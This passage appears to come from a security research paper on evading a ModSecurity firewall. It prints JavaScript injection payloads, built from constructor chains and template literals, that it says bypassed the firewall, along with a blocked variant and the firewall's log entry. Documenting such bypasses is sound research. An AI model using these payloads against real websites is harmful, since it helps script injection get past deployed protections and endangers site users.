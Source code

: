 \begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using square bracket notation]
[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using dot notation]
[].constructor.constructor`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

It is conspicuous that the payload could bypass the firewall with only the later \verb|$| of the two placeholders: \verb|${expression}| escaped.
This seems to be a bug in the WAF or the ruleset.
It is also what enables the above payload to be valid.
A substitution of the earlier \verb|$| with an escaped variant is not possible.
JavaScript does not recognize the placeholder in the Template Literal without the explicit character \verb|$|.
Substitution of the second placeholder is possible because it happens inside a string containing the Tagged Template Literal.


\subsubsection{Avoiding \{\}}
\label{sec:avoidingbypassB}
A payload thats not using any \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using string substitution strategies. Considering the payload from the previous Section~\ref{sec:avoidingbypassA}, the similar payload in Listing~\ref{lst:stringreplaceblocked} was being blocked by the modsecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} payload, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput${2+2}`')();</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

